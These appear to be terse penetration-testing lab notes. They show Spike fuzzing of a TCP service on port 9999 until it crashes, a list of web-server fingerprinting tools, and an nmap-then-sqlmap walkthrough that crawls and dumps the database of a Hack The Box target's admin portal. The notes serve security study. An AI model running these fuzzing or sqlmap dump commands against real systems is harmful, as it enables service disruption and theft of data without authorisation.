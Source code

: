 # Fuzzing with Spike

`nc 10.0.2.14 9999`
`HELP`
```command.spk
s_readline();
s_string("TRUN ");
s_string_variable("COMMAND");
```

`generic_send_tcp 10.0.2.14 9999 command.spk 0 0`
--> Server crashed
# Information gathering with Legion 

# Fingerprint web servers

#### httprecon
#### httprint
#### uniscan

# web server penetration using sqlmap

1. `nmap -PS -F -A 10.10.10.22`
\> ssl-cert: commonName=europacorp.htb 
\> DNS: **admin-portal.europacorp.htb** (name server)
2. `nano /etc/hosts`
3. append `10.10.10.22 admin-portal.europacorp.htb`
4. On Firefox: `https://admin-portal.europacorp.htb`
5. `sqlmap -u https://admin-portal.europacorp.htb --forms --crawl=2 --dump`